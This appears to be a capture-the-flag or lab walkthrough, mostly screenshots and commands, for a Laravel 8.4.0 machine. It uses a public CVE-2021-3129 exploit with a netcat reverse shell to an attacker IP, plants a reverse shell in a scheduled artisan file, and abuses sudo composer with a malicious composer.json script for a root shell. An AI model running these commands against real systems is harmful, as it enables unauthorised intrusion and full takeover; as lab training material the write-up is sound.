When visiting non-existent web pages:

It's running Laravel 8.4.0

Using this [exploit](https://github.com/joshuavanderpoll/CVE-2021-3129):
```
git clone https://github.com/joshuavanderpoll/CVE-2021-3129.git
cd CVE-2021-3129
python3 -m venv .venv
source .venv/bin/activate
pip3 install -r requirements.txt
```
Checking the chains available:
```
python3 CVE-2021-3129.py --chains
```

Trying RCE2:
```
python3 CVE-2021-3129.py --host http://192.168.155.38/ --exec 'busybox nc 192.168.45.223 80 -e bash' --chain Laravel/RCE2
```
Now run a listener:
```
pen 80
```

We get a shell.

Running linpeas we can find that skunk is in sudo group.


Running pspy64:

We have a file running called  artisan:


Now putting a reverse shell in it
From pentestmonkey.

Start a listener:
```
penelope.py 8000
```


Running `sudo -l`:


We can run composer without password.

Now in `/var/www/html/lavita` edit composer.json WITH SHELL AS WWW-DATA:
```
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' > composer.json
```

Now run command:
```
sudo /usr/bin/composer --working-dir\=/var/www/html/lavita run-script x
```
We get a root shell:
